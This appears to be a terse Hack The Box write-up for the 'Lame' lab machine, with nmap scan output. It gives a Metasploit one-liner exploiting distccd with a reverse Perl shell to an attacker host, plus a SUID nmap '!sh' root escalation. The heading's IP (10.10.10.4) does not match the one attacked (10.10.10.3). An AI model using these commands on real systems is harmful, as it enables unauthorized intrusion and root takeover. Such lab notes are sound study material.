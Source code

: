 # Lame : 10.10.10.4


Hack the box

## In brief
- 3632/tcp open  distccd 
  - Dist CC  4.2.4 :  CVE 2004-2687 
  - msf exploit/unix/misc/distcc_exec 
  - rewrite exploit_distcc.rb 
- Prov Escalation with sbit on nmap --interactive and  !sh
  
$ msfconsole
msf5 > search distccd

$ msfconsole -x "use exploit/unix/misc/distcc_exec; set payload cmd/unix/reverse_perl;set RHOST 10.10.10.3;set LHOST 10.10.14.4;exploit"

# Rewrite Exploit 
ruby exploit_distcc.rb 


$ find / -user root -perm -4000 -print 2>/dev/null
$ /usr/bin/nmap --interactive
  nmap> !sh



## [nmap -A 10.10.10.3]
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-15 08:47 CET
Nmap scan report for 10.10.10.3
Host is up (0.075s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)